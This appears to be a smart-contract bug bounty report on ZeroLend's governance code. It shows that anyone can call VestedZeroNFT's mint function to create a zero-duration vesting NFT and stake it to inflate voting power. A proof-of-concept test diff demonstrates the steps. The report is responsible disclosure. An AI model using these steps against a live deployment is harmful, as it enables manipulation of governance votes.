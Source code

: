 # 28987 - \[SC - Medium] Manipulation of governance is possible by minti...

Submitted on Mar 4th 2024 at 04:01:59 UTC by @dontonka for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28987

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/zerolend/governance

Impacts:

* Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description

## Brief/Intro

VestedZeroNFT::mint is `accessible to anyone`, so anyone can mint a VestedNFT in the moment. This seems to be against the expected behavior as noted as follow by the `IVestedZeroNFT` interface and seems to warrant `Critical` vulnerability for the vote manipulation exploit this could allow.

```
Mints a vesting nft for a user. This is a privileged function meant to only be called by a contract or a deployer
```

## Vulnerability Details

As indicated, it's possible to mint to self and with no duration (linearDuration = 0 and cliffDuration = 0), which mean already all claimable, and then the attacker can transfer the NFT to the `StakingBonus contract` in order to boost his voting power right away.

## Impact Details

Manipulation of governance is possible by minting to self a VestedNFT with no duration.

## References

https://github.com/zerolend/governance/blob/main/contracts/vesting/VestedZeroNFT.sol#L63-L100

## Proof of Concept

Add the following changes in `StakingBonus.test.ts` and run `npm test` command. The test proove the following:

1. Can mint to self with no duration
2. Boost in voting power confirmed

```diff
     beforeEach(async () => {
       expect(await vest.lastTokenId()).to.equal(0);

-      // deployer should be able to mint a nft for another user
-      await vest.mint(
+      // fund the ant account. This could be earned from a normal vesting NFT or bought on the secondary market, just transfering from deployer here to make this simpler
+      await zero.transfer(ant.address, e18 * 20n);
+      await zero.connect(ant).approve(vest.target, e18 * 20n);
+
+      // Mint from ant account to himself
+      await vest.connect(ant).mint(
         ant.address,
         e18 * 20n, // 20 ZERO linear vesting
         0, // 0 ZERO upfront
-        1000, // linear duration - 1000 seconds
+        0, // linear duration - 0 seconds
         0, // cliff duration - 0 seconds
-        now + 1000, // unlock date
-        true, // penalty -> false
+        0, // unlock date
+        false, // penalty -> false
         0
       );

       expect(await vest.lastTokenId()).to.equal(1);
     });
```

```
-    it("should give a user a bonus if the bonus contract is well funded", async function () {
+    it.only("Any user can mint Vested NFT as long as they own enough $ZERO and boost their voting power.", async function () {
      // fund some bonus tokens into the staking bonus contract
      await zero.transfer(stakingBonus.target, e18 * 100n);

      // give a 50% bonus
      await stakingBonus.setBonusBps(50);

      // stake nft on behalf of the ant
      expect(
        await vest
          .connect(ant)
          ["safeTransferFrom(address,address,uint256)"](
            ant.address,
            stakingBonus.target,
            1
          )
      );

      // the staking contract should've awarded more zero for staking unvested tokens
      // 20 zero + 50% bonus = 30 zero... ->> which means about 29.999 voting power
      expect(await locker.balanceOfNFT(1)).greaterThan(e18 * 29n);
    });
```
